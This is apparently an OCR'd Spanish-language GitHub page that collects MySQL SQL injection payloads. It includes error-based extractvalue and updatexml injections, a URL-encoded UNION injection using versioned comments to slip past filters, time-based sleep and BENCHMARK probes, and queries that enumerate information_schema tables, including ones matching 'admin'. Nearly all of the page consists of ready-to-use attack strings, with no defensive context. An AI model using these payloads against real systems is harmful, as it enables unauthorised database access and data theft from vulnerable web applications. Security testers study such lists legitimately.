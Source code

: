 `SELECT reverse(reverse(right(if(1=1,table_name,'<h3><font color=blue> Tablas:</h3>'),100))) from information_schema.tables`

### Sql inyection usando las funciones HEX-UNHEX

`SELECT UNHEX(HEX(table_name))from information_schema.tables`

### Inyección sql tipo error based usando Extractvalue

`1%20and+extractvalue(rand(),concat(0x7e,version(),0x7e,user()))--`

### Sql inyection payload usando reverse

`reverse(right(reverse(data),1))`

### Sql inyection payload usando extractvalue

`extractvalue(rand(),concat(CHAR(126),database(),CHAR(126)))`

### Sql inyection payload + url encode + timing  

`-7 %23%0AAND 0--%0A /*!12345UNION*/ /*!12345ALL*/ (/*!12345SELECT*/ 1,sleep(5),'soy vulnerable',BENCHMARK(1000000,MD5('true')),5,6,7,8,9,10,11,12,13)`

### JSON Generation Functions
```
select JSON_OBJECT(1, @@version)

select json_array(current_user())

select json_objectagg(1, @@datadir)

select json_arrayagg('_Y000!_')

```

## Mezclas

```
select json_arrayagg(concat(JSON_OBJECT(concat(JSON_OBJECT(concat(current_user()), concat(@@version))), '_Y000!_')))

SELECT * FROM  information_schema.tables WHERE `table_name` REGEXP 'admin'

SELECT IF(IFNULL(1/0,'a'),'NO',JSON_OBJECT(1, concat(table_name))) FROM  information_schema.tables WHERE `table_name` REGEXP 'admin'

select UPDATEXML(1,CONCAT('.',1,(SELECT (ELT(1=1,2))),3),1)

select UNHEX(HEX(lpad(table_name,50,'>'))) from information_schema.tables

SELECT TRIM(UpdateXML(table_name, '_Y000_', '1111')) FROM information_schema.tables

select IF(IFNULL(0,'a'),'NO es nulo',JSON_OBJECT(1, concat(table_name))) FROM  information_schema.tables

Select if(substring(@@version,'1','1') = "5", 'si', 'no')

Select Unhex(hex(WEIGHT_STRING(table_name))) as 'tables' from information_schema.tables where table_name regexp '^[a | b]'

select UNHEX(HEX(lpad(table_name,50,'>'))) from information_schema.tables

select UPDATEXML(1,CONCAT('.',1,(SELECT (ELT(1=1,2))),3),1)

```